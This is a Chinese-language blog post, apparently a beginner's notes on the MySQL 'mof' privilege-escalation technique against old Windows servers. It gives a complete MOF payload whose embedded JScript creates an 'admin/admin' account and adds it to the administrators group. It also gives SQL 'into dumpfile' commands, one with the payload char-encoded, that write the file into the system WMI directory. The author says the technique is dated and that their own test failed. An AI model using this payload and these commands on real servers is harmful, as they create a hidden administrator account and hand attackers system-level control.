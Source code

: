 ```yaml
---
layout: post
title: mof提权
key: 20180620
tags: MySQL提权
---
```


第一次接触提权，先看了个最简单的，哈哈哈哈，看了几个视频和文章，然后整理了一下，估计很多不对的地方，等真正了解了就回来改掉。

<!--more-->

## 原理  
mof是Windows系统的一个文件，位于c:\windows\system32\wbem\mof\nullevt.mof，叫做托管对象格式，
它的作用是每隔5秒，就会去监控进程的创建和死亡。mof提权的简单利用过程就是，拥有了MySQL的root权限
后，使用root权限去执行上传操作，将我们重新改写过的mof文件上传，之后，这个文件会被服务器每隔5秒
以system权限执行。这个改写的mof中，有一段是vbs脚本，这个vbs大多数是cmd的添加管理员用户的命令。
  
  
## 为什么可以提权？  
可以提权的根本原因是因为有一个更高权限的线程执行了命令。我们这里nullevt.mof文件的加载过程由system
用户执行，因此我们可以最高把用户的权限提升到system。  
  
  
## 利用条件  
- Windows版本<=2003  
- c:\windows\system32\wbem\mof目录可写入  
- 数据库允许外连，且已知root账号密码  
  
 
## 利用代码  
># pragma namespace("\\.\root\subscription")

instance of **EventFilter as $EventFilter{    EventNamespace = "Root\Cimv2";    Name  = "filtP2";    Query = "Select \* From **InstanceModificationEvent "
            "Where TargetInstance Isa \"Win32_LocalTime\" "
            "And TargetInstance.Second = 5";
    QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $Consumer
{
    Name = "consPCSV2";
    ScriptingEngine = "JScript";
    ScriptText =
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user admin admin /add")";
};

instance of __FilterToConsumerBinding
{
    Consumer   = $Consumer;
    Filter = $EventFilter;
};  
其中的关键就在于第14行的“net.exe user admin admin /add”，这句是用来创建一个用户名为admin，密码为admin的用户，创建成功后，再将这句命令改为
“net.exe localgroup administrators admin /add”后，再次上传，达到创建admin用户并将其加入administrators组的目的。  
  
## 利用过程  
  
### 拥有网站webshell时  
如果已经得到了该网站的webshell，那么可以将nullevt.mof文件上传到c盘的的可写目录xxx，然后执行下面的SQL命令即可  
>select load_file('c:\xxx\nullevt.mof') into dumpfile'c:\windows\system32\wbem\mof\nullevt.mof';  
这里可以看下dumpfile与outfile的区别，对于outfile来说，into outfile会自动添加换行符等操作，适用于文本文件，因为会产生冗余数据，会导致我们的命令执行
失败。而into dumpfile是将文件以二进制的方式写入，因此这里我们用into dumpfile。  
  
### 未拥有网站webshell  
对于没有网站webshell的情况，我们可以采取连接数据库后直接写入的方式，将代码转换为ASCII码后，直接传入。  
>select char(35,112,114,97,103,109,97,32,110,97,109,101,115,112,97,99,101,40,34,92,92,92,92,46,92,92,114,111,111,116,92,92,115,117,98,
115,99,114,105,112,116,105,111,110,34,41,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,95,95,69,118,101,110,116,70,105,108,
116,101,114,32,97,115,32,36,69,118,101,110,116,70,105,108,116,101,114,13,10,123,13,10,32,32,32,32,69,118,101,110,116,78,97,109,101,
115,112,97,99,101,32,61,32,34,82,111,111,116,92,92,67,105,109,118,50,34,59,13,10,32,32,32,32,78,97,109,101,32,32,61,32,34,102,105,
108,116,80,50,34,59,13,10,32,32,32,32,81,117,101,114,121,32,61,32,34,83,101,108,101,99,116,32,42,32,70,114,111,109,32,95,95,73,110,
115,116,97,110,99,101,77,111,100,105,102,105,99,97,116,105,111,110,69,118,101,110,116,32,34,13,10,32,32,32,32,32,32,32,32,32,32,32,
32,34,87,104,101,114,101,32,84,97,114,103,101,116,73,110,115,116,97,110,99,101,32,73,115,97,32,92,34,87,105,110,51,50,95,76,111,99,
97,108,84,105,109,101,92,34,32,34,13,10,32,32,32,32,32,32,32,32,32,32,32,32,34,65,110,100,32,84,97,114,103,101,116,73,110,115,116,
97,110,99,101,46,83,101,99,111,110,100,32,61,32,53,34,59,13,10,32,32,32,32,81,117,101,114,121,76,97,110,103,117,97,103,101,32,61,
32,34,87,81,76,34,59,13,10,125,59,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,65,99,116,105,118,101,83,99,114,105,112,
116,69,118,101,110,116,67,111,110,115,117,109,101,114,32,97,115,32,36,67,111,110,115,117,109,101,114,13,10,123,13,10,32,32,32,32,
78,97,109,101,32,61,32,34,99,111,110,115,80,67,83,86,50,34,59,13,10,32,32,32,32,83,99,114,105,112,116,105,110,103,69,110,103,105,
110,101,32,61,32,34,74,83,99,114,105,112,116,34,59,13,10,32,32,32,32,83,99,114,105,112,116,84,101,120,116,32,61,13,10,32,32,32,32,
34,118,97,114,32,87,83,72,32,61,32,110,101,119,32,65,99,116,105,118,101,88,79,98,106,101,99,116,40,92,34,87,83,99,114,105,112,116,
46,83,104,101,108,108,92,34,41,92,110,87,83,72,46,114,117,110,40,92,34,110,101,116,46,101,120,101,32,108,111,99,97,108,103,114,111,
117,112,32,97,100,109,105,110,105,115,116,114,97,116,111,114,115,32,97,100,109,105,110,32,47,97,100,100,92,34,41,34,59,13,10,32,125,
59,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,95,95,70,105,108,116,101,114,84,111,67,111,110,115,117,109,101,114,66,105,
110,100,105,110,103,13,10,123,13,10,32,32,32,32,67,111,110,115,117,109,101,114,32,32,32,61,32,36,67,111,110,115,117,109,101,114,59,
13,10,32,32,32,32,70,105,108,116,101,114,32,61,32,36,69,118,101,
110,116,70,105,108,116,101,114,59,13,10,125,59) into dumpfile  'c:\windows\system32\wbem\mof\nullevt.mof';  
  
## 总结  
emmmmm，这估计现在应该很少可以成功了，利用的条件都很落后了，感觉应该不会存在了...我在自己的虚拟机里面复现并没有成功，尴尬，我的虚拟机那个
文件夹可以写入，但是写入后会自动创建个名字叫做bad的文件夹，然后将我的nullevt.mof移动到里面去，这是什么原因呢，暂时还不知道，网上搜了下，也
没看到什么解释，等找个时间问问dalao，在来补充吧...  
  
>离职了，想找新工作了，加油吧!!!! >_<
